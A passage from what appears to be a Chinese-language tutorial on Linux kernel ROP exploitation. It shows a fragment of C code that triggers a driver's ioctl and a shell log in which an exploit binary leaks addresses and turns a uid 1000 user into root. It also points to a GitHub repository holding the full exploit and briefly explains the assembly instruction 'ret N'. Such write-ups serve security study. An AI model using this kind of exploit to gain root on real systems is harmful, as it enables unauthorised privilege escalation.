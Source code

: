 ```c
    
    fd = open(DEVICE_PATH,O_RDONLY);
    ioctl(fd,0,&req);
}
```

### 8. exploit

```bash
/$ id
uid=1000 gid=1000 groups=1000
/ $ ./exp
stack_addr:0x810d7f38
mmapd_addr:0x810d0000
fake_stack_addr:0x810d7f38
fake_stack_addr:0x810d1c97
[   17.713532] device opened!
[   17.716624] size = 1ffffffffc21ab7f
[   17.717336] fn is at ffffffff810d7f38
/ # id
uid=0 gid=0
```



完整的代码和脚本放在[github](https://github.com/hanc00l/rop_linux_kernel_pwn)上。



### 补充：汇编的ret N

以32位程序为例

> retn

先eip=[esp]，然后esp=esp+4

> retn N

先eip=[esp]，然后esp=esp+4+N


